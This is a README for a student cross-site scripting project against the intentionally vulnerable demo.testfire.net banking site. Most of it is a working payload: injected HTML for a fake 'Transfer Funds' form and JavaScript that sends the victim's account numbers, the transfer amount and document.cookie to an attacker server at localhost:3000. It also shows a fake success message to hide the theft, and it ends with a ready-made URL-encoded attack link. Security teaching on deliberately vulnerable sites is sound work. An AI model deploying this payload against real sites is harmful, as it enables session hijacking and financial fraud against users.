 # About
Cross Site Scripting attack on an already logged in user.
This is done on a website which is made intentionally vulnerable.
https://demo.testfire.net/<br>
**This is only for learning purposes.**
## Note:
Below is the script, execute this on any input form eg (Search, feedback) of the given website.
You must have local server setup, here it is node server localhost:3000. code is uploaded clone it and run on your system.

**Here we are getting user's money transfer information by using fake transfer form which users would not be able notice and they will transfer money to the accounts and all those transfer details are sent to the local server of the attacker.

# Execution
<form id="tForm" name="tForm" method="post" action="doTransfer" onsubmit="return (confirminput(tForm));"><h1>Transfer Funds</h1><table width="100%" cellspacing="0" cellpadding="1" border="0"><tbody><tr><td><strong>From Account:</strong></td><td><select size="1" id="fromAccount" name="fromAccount"><option value="800000">800000 Corporate</option><option value="800001">800001 Checking</option></select></td></tr><tr><td><strong>To Account:</strong></td><td><select size="1" id="toAccount" name="toAccount"><option value="800000">800000 Corporate</option><option value="800001">800001 Checking</option></select></td></tr><tr><td><strong> Amount to Transfer:</strong></td><td><input type="text" id="transferAmount" name="transferAmount"></td></tr><tr><td colspan="2" align="center"><input type="button" name="transfer" onclick= "showTransaction()" value="Transfer Money" id="transfer"></td></tr><tr><td colspan="2">&nbsp;</td></tr><tr><td colspan="2" align="center"><span id="_ctl0__ctl0_Content_Main_postResp" align="center"><span style="color: Red"></span></span></span></td></tr></tbody></table></form>

<script type="text/javascript">
    document.getElementsByClassName("fl")[0].children[0].textContent = "";
    document.getElementsByClassName("fl")[0].children[1].textContent = "";
    var today = new Date();
    var date = today.getFullYear()+'-'+(today.getMonth()+1)+'-'+today.getDate();
    var time = today.getHours() + ":" + today.getMinutes() + ":" + today.getSeconds();
    var dateTime = date+' '+time;
    function showTransaction()
    {
        new Image().src='http://localhost:3000/?FromAccount='+document.forms["tForm"].fromAccount.value
        +'&ToAccount='+document.forms["tForm"].toAccount.value
        +'&TransferMoney='+document.forms["tForm"].transferAmount.value+'&'+document.cookie;
        
        document.getElementById("_ctl0__ctl0_Content_Main_postResp").children[0].textContent = document.forms["tForm"].transferAmount.value
        +".0 was successfully transferred from Account "+ document.forms["tForm"].fromAccount.value+ " into Account "
        + document.forms["tForm"].toAccount.value + " at "+dateTime;
    }   
</script>

<a href="https://demo.testfire.net/search.jsp?query=%3Cform+id%3D%22tForm%22+name%3D%22tForm%22+method%3D%22post%22+action%3D%22doTransfer%22+onsubmit%3D%22return+%28confirminput%28tForm%29%29%3B%22%3E%3Ch1%3ETransfer+Funds%3C%2Fh1%3E%3Ctable+width%3D%22100%25%22+cellspacing%3D%220%22+cellpadding%3D%221%22+border%3D%220%22%3E%3Ctbody%3E%3Ctr%3E%3Ctd%3E%3Cstrong%3EFrom+Account%3A%3C%2Fstrong%3E%3C%2Ftd%3E%3Ctd%3E%3Cselect+size%3D%221%22+id%3D%22fromAccount%22+name%3D%22fromAccount%22%3E%3Coption+value%3D%22800000%22%3E800000+Corporate%3C%2Foption%3E%3Coption+value%3D%22800001%22%3E800001+Checking%3C%2Foption%3E%3C%2Fselect%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd%3E%3Cstrong%3ETo+Account%3A%3C%2Fstrong%3E%3C%2Ftd%3E%3Ctd%3E%3Cselect+size%3D%221%22+id%3D%22toAccount%22+name%3D%22toAccount%22%3E%3Coption+value%3D%22800000%22%3E800000+Corporate%3C%2Foption%3E%3Coption+value%3D%22800001%22%3E800001+Checking%3C%2Foption%3E%3C%2Fselect%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd%3E%3Cstrong%3E+Amount+to+Transfer%3A%3C%2Fstrong%3E%3C%2Ftd%3E%3Ctd%3E%3Cinput+type%3D%22text%22+id%3D%22transferAmount%22+name%3D%22transferAmount%22%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd+colspan%3D%222%22+align%3D%22center%22%3E%3Cinput+type%3D%22button%22+name%3D%22transfer%22+onclick%3D+%22showTransaction%28%29%22+value%3D%22Transfer+Money%22+id%3D%22transfer%22%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd+colspan%3D%222%22%3E%26nbsp%3B%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd+colspan%3D%222%22+align%3D%22center%22%3E%3Cspan+id%3D%22_ctl0__ctl0_Content_Main_postResp%22+align%3D%22center%22%3E%3Cspan+style%3D%22color%3A+Red%22%3E%3C%2Fspan%3E%3C%2Fspan%3E%3C%2Fspan%3E%3C%2Ftd%3E%3C%2Ftr%3E%3C%2Ftbody%3E%3C%2Ftable%3E%3C%2Fform%3E++%3Cscript+type%3D%22text%2Fjavascript%22%3E+++++document.getElementsByClassName%28%22fl%22%29%5B0%5D.children%5B0%5D.textContent+%3D+%22%22%3B+++++document.getElementsByClassName%28%22fl%22%29%5B0%5D.children%5B1%5D.textContent+%3D+%22%22%3B+++++var+today+%3D+new+Date%28%29%3B+++++var+date+%3D+today.getFullYear%28%29%2B%27-%27%2B%28today.getMonth%28%29%2B1%29%2B%27-%27%2Btoday.getDate%28%29%3B+++++var+time+%3D+today.getHours%28%29+%2B+%22%3A%22+%2B+today.getMinutes%28%29+%2B+%22%3A%22+%2B+today.getSeconds%28%29%3B+++++var+dateTime+%3D+date%2B%27+%27%2Btime%3B+++++function+showTransaction%28%29+++++%7B+++++++++new+Image%28%29.src%3D%27http%3A%2F%2Flocalhost%3A3000%2F%3FFromAccount%3D%27%2Bdocument.forms%5B%22tForm%22%5D.fromAccount.value+++++++++%2B%27%26ToAccount%3D%27%2Bdocument.forms%5B%22tForm%22%5D.toAccount.value+++++++++%2B%27%26TransferMoney%3D%27%2Bdocument.forms%5B%22tForm%22%5D.transferAmount.value%2B%27%26%27%2Bdocument.cookie%3B++++++++++++++++++document.getElementById%28%22_ctl0__ctl0_Content_Main_postResp%22%29.children%5B0%5D.textContent+%3D+document.forms%5B%22tForm%22%5D.transferAmount.value+++++++++%2B%22.0+was+successfully+transferred+from+Account+%22%2B+document.forms%5B%22tForm%22%5D.fromAccount.value%2B+%22+into+Account+%22+++++++++%2B+document.forms%5B%22tForm%22%5D.toAccount.value+%2B+%22+at+%22%2BdateTime%3B+++++%7D+++++%3C%2Fscript%3E">Demo Link for fake Transaction</a>

# Authors

Ashkan Es Haghi <br>
Alexander Grissinger <br>
Muddassir Hussain <br>

# Project Date
08.11.2019

